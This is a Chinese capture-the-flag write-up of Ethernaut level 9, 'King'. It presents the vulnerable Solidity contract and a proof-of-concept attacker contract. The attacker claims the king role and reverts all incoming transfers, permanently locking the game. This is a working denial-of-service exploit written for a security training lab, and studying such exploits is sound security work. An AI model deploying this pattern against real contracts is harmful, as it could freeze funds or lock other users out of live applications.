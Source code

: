 ```yaml
---
title: 'ethernaut.openzeppelin合约安全闯关-8'
date: 2022-12-10 19:42:15
tags:
- '区块链技术'
- '智能合约安全'
categories:
- '智能合约安全'










---
```


<!-- more -->

::: tip

目前来看最全面的智能合约安全靶场:+1:

https://ethernaut.openzeppelin.com/ 

浏览器控制台 help()指令

![help](G:\vue-press\hanxin-vuepress\docs\技术文章\区块链相关\assets\1670479273112.png)

:::

#### 第九关king  思路与POC

##### 目标: 取得king的位置并想办法不让人抢走

#### 先看代码:

```solidity
// SPDX-License-Identifier: MIT
pragma solidity ^0.8.0;

contract King {

  address king;
  uint public prize;
  address public owner;

  constructor() payable {
  //部署者为第一个king
    owner = msg.sender;  
    king = msg.sender;
    prize = msg.value;
  }

  receive() external payable {
    require(msg.value >= prize || msg.sender == owner);
    //将最新数量的token转给上一位king
    payable(king).transfer(msg.value);
    //刷新king身份和最新价格
    king = msg.sender;
    prize = msg.value;
  }

  function _king() public view returns (address) {
    return king;
  }
}
```

##### poc思路:point_right:：其实很简单,只需要让转账失败即可 => ( payable(king).transfer(msg.value);) =>revert

```solidity
// SPDX-License-Identifier: MIT
pragma solidity ^0.8.0;

contract badKing { 
      
    
     //特定接收转账函数,默认接收转账函数是receive
     function _receive() payable public {

     }
     //转账到King合约 参与游戏
     function getking(address payable addr) public returns(bool){
      
        (bool success,) = addr.call{value: address(this).balance}("");
        return success;
     }
  //但是不让King合约转账到此合约
     fallback() external payable  {
        revert("don't take my site");
    }
}
```

